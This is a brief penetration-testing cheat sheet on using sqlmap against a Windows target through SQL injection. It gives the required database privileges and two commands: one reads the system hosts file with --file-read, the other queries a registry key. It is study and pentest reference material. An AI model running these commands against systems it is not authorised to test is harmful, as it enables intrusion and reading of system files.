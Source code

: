 # Windows

Search Tag: #sqlmap #enumeration-and-discovery

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- DNS resolve and nameserver IPs

```
$ sqlmap -u <URL> --random-agent --file-read="C:/Windows/System32/drivers/etc/hosts"
```

TODO: Use registry to enumerate the windows version

```
$ sqlmap -u <URL> --reg-key="HKLM\SOFTWARE\Microsoft" --reg-value=Version
```